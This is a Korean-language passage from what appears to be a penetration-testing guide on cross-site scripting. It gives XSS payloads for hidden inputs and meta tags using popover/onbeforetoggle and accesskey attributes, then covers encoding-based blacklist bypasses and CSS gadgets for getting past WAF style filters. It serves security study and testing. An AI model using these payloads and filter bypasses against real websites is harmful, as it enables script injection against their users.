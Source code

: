 [**여기**](https://portswigger.net/research/exploiting-xss-in-hidden-inputs-and-meta-tags) **에서 숨겨진 입력을 악용하는 것이 가능해졌습니다:**
```html
<button popvertarget="x">Click me</button>
<input type="hidden" value="y" popover id="x" onbeforetoggle=alert(1)>
```
그리고 **메타 태그**에서:
```html
<!-- Injection inside meta attribute-->
<meta name="apple-mobile-web-app-title" content=""Twitter popover id="newsletter" onbeforetoggle=alert(2) />
<!-- Existing target-->
<button popovertarget="newsletter">Subscribe to newsletter</button>
<div popover id="newsletter">Newsletter popup</div>
```
[**여기**](https://portswigger.net/research/xss-in-hidden-input-fields)에서: **피해자**를 **설득**하여 **키 조합**을 누르도록 유도하면 **숨겨진 속성** 내에서 **XSS 페이로드**를 실행할 수 있습니다. Firefox Windows/Linux에서 키 조합은 **ALT+SHIFT+X**이며 OS X에서는 **CTRL+ALT+X**입니다. 다른 키를 access key 속성에 사용하여 다른 키 조합을 지정할 수 있습니다. 다음은 벡터입니다:
```markup
<input type="hidden" accesskey="X" onclick="alert(1)">
```
**XSS 페이로드는 다음과 같을 것입니다: `" accesskey="x" onclick="alert(1)" x="`**

### 블랙리스트 우회

이 섹션에서 이미 다양한 인코딩을 사용한 여러 트릭이 노출되었습니다. 다음을 사용할 수 있는 곳을 알아보기 위해 **돌아가세요:**

* **HTML 인코딩 (HTML 태그)**
* **유니코드 인코딩 (유효한 JS 코드가 될 수 있음):** `\u0061lert(1)`
* **URL 인코딩**
* **16진수 및 8진수 인코딩**
* **데이터 인코딩**

**HTML 태그 및 속성 우회**

이전 섹션의 [블랙리스트 우회](./#blacklist-bypasses)를 읽으세요.

**JavaScript 코드 우회**

다음 섹션의 [자바스크립트 우회 블랙리스트](./#javascript-bypass-blacklists-techniques)를 읽으세요.

### CSS-Gadgets

웹의 매우 작은 부분에서 XSS를 발견했다면 (아마도 푸터에 작은 링크가 있는 경우), 해당 요소가 차지하는 공간을 **최대화하기 위해 수정**할 수 있습니다.

예를 들어, 다음과 같이 요소에 스타일을 추가할 수 있습니다: `position: fixed; top: 0; left: 0; width: 100%; height: 100%; background-color: red; opacity: 0.5`

그러나 WAF가 스타일 속성을 필터링하는 경우 CSS 스타일링 가젯을 사용할 수 있습니다. 예를 들어 다음과 같은 것을 찾았다면

> .test {display:block; color: blue; width: 100%\}

그리고

> \#someid {top: 0; font-family: Tahoma;}

이제 링크를 수정하고 다음 형식으로 가져올 수 있습니다
